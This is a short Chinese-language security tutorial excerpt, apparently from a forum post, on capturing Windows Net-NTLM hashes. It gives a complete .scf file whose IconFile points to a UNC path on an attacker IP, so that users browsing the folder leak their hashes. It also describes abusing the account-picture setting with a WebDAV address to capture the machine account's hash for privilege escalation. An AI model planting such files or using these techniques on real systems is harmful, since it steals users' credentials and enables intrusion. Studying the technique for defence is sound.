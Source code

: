 [![](assets/1701222524-b6e05083da884753d1e4af0e4d412f18.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128141106-eac8d346-8db4-1.png)

### SCF 文件利用

scf 文件包含了 IconFile 属性，所以 Explore.exe 会尝试获取文件的图标，而 IconFile 是支持 UNC 路径的，以下是 scf 后缀的文件的格式

```plain
[Shell]
Command=2
IconFile=\\192.168.188.129\scf\test.ico
[Taskbar]
Command=ToggleDesktop
```

新建 test.scf，之后写入以上内容并将其放在一个文件夹底下，当用户访问该文件夹的时候，我们就会获得用户的 net-ntlm hash~  
[![](assets/1701222524-2116e18cd5aa2a3af2af1bb8f7a725a4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128141152-062cb3be-8db5-1.png)

### 用户头像利用

此方法适用于 Windows 10/2016/2019，在更改账户图片处用普通用户的权限指定一个webadv地址的图片，如果普通用户验证图片通过，那么SYSTEM用户(域内是机器用户)也去访问192.168.188.129，并且携带凭据，我们就可以拿到机器用户的net-ntlm hash，这个也可以用来提权  